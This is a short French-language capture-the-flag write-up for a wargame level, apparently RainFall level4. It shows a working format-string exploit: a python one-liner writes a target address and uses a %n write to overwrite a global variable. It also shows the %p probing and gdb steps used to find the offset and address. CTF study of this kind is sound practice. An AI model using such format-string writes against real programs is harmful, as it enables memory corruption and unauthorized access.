 # Solution 

```
python -c 'print("\x10\x98\x04\x08" + "%16930112x" + "%12$n")' | ./level4
```

## Explication du level

La solution ici est identique au lvl precedent

```
level4@RainFall:~$ python -c 'print("AAAA" + " %p " * 12)' | ./level4 
AAAA 0xb7ff26b0  0xbffff794  0xb7fd0ff4  (nil)  (nil)  0xbffff758  0x804848d  0xbffff550  0x200  0xb7fd1ac0  0xb7ff37d0  0x41414141 

level4@RainFall:~$ gdb ./level4 
(gdb) p &m
$1 = (<data variable, no debug info> *) 0x8049810
```

1025544 en hexa = 16930116 - 4 de l'adresse 16930112

python -c 'print("\x10\x98\x04\x08" + "%16930112x" + "%12$n")' | ./level4

Pas besoin de cat car cela affiche le mdp directement
